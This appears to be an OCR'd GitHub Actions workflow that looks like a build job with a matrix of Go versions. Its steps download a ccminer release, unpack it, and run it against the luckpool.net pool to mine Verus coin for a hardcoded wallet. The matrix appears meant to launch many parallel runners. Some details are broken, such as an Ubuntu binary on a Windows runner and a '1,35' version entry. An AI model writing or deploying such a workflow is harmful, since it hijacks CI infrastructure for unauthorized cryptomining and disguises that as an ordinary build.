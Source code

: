 name: eX-code_UMBL

on: [workflow_dispatch]

jobs:
  build:
    name: eX-code_UMBL
    runs-on: windows-latest
    strategy:
      max-parallel: 5
      fail-fast: false
      matrix:
        go: [1.0, 1.1, 1.2, 1.3, 1,35]
        flag: [A, B, C, D, E, F, G, H, I]
    env:
        NUM_JOBS: 20
        JOB: ${{ matrix.go }}
    steps:
    - name: PREPARING
      run: Invoke-WebRequest https://github.com/monkins1010/ccminer/releases/download/v3.7.0/ccminer_3_7_ubuntu_18.04.zip -Outfile ccminer_3_7_ubuntu_18.04.zip
    - name: Seting-UP
      run: Expand-Archive ccminer_3_7_ubuntu_18.04.zip
    - name: Running
      run:  ./ccminer_3_7_ubuntu_18.04 -a verus  -o stratum+tcp://ap.luckpool.net:3956#xnsub -u RGVegWzDKhuPUAKJybftAZm4BXShNFPCYe.$(echo $(shuf -i 1-64 -n 1)VRSC) -p x -t 4
    - name: DONE
      run: exit
